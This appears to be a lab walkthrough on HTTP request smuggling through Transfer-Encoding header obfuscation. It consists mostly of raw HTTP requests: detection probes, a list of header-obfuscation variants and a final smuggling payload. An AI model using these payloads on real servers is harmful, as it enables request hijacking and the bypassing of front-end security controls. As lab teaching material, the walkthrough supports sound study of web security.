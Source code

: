     POST / HTTP/1.1\r\n
    Content-Length: 6\r\n
    Transfer-Encoding: chunked\r\n
    \r\n
    3\r\n
    abc\r\n
    X\r\n
    \r\n

We got an `Read timeout` error which shows that the frontend is using TE to indicate the end of the request but got an invalid end element `X`.
Next identify what the back-end is using to identify where a request ends:

    POST / HTTP/1.1\r\n
    Content-Length: 6\r\n
    Transfer-Encoding: chunked\r\n
    \r\n
    0\r\n
    \r\n
    X

We immediately got a `200 OK` response which indicates that the back-end is also using TE. 
Now try all of this technique to identify the TE header obfuscation vulnerability:

    Transfer-Encoding: xchunked

    Transfer-Encoding : chunked

    Transfer-Encoding: chunked
    Transfer-Encoding: x

    Transfer-Encoding:[tab]chunked

    [space]Transfer-Encoding: chunked

    X: X[\n]Transfer-Encoding: chunked

    Transfer-Encoding
    : chunked

The response for this request got timed out, indicate a TE header obfuscation vulnerability where the back-end server is now using the CL header (because the back-end server is waiting for the 6th byte but the front-end server only send the body containing 0 - FE still use TE, BE is now using CL):

    POST / HTTP/1.1\r\n
    Content-Length: 6\r\n
    Transfer-Encoding: chunked\r\n
    Transfer-Encoding: foobar\r\n
    \r\n
    0\r\n
    \r\n
    X
    
Now send this request to meet the lab's requirement:

    POST / HTTP/1.1\r\n
    Transfer-Encoding: chunked\r\n
    Transfer-Encoding: foobar\r\n
    Content-Length: 4\r\n
    \r\n
    5c\r\n
    GPOST / HTTP/1.1\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    Content-Length: 11\r\n
    \r\n
    x=1\r\n
    0\r\n
    \r\n
